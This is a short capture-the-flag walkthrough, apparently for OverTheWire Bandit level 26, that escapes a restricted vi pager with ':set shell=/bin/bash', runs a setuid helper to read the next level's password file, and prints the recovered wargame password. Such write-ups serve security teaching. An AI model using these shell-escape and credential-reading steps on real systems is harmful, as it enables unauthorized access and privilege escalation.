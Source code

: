 Simple VI stuff!
![Bandit26](https://github.com/sreekesari-vangeepuram/overthewire/blob/master/overthewire/bandit/bandit26/level26-%3Elevel27.png)

Let's see what we have to do:
```
  1   _                     _ _ _   ___   __                                                                                            
  2  | |                   | (_) | |__ \ / /
  3  | |__   __ _ _ __   __| |_| |_   ) / /_
  4  | '_ \ / _` | '_ \ / _` | | __| / / '_ \
~
~                                                                           
:set shell=/bin/bash
```
There's a parameter called `shell` in `vi`, to access the shell from the `vi-shell`!
Since the shell is set to `/usr/bin/showtext`, we've changed it to `/bin/bash`.

```
  1   _                     _ _ _   ___   __
  2  | |                   | (_) | |__ \ / /
  3  | |__   __ _ _ __   __| |_| |_   ) / /_
  4  | '_ \ / _` | '_ \ / _` | | __| / / '_ \
~ 
~
:shell
[No write since last change]
bandit26@bandit:~$ ls
bandit27-do  text.txt
bandit26@bandit:~$ ./bandit27-do 
Run a command as another user.
  Example: ./bandit27-do id
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
3ba3118a22e93127a4ed485be72ef5ea
bandit26@bandit:~$
```
Finally, got it!

Hope you've learnt something new from this [if you don't know this before/didn't strike to you during the start].

Now, let's use the password `3ba3118a22e93127a4ed485be72ef5ea` to log into the remote-machine as `bandit27`.

**Warning: Please, first try Level 27 -> Level 28! Otherwise it's useless to simply cpy-pst the command[s]/password[s].
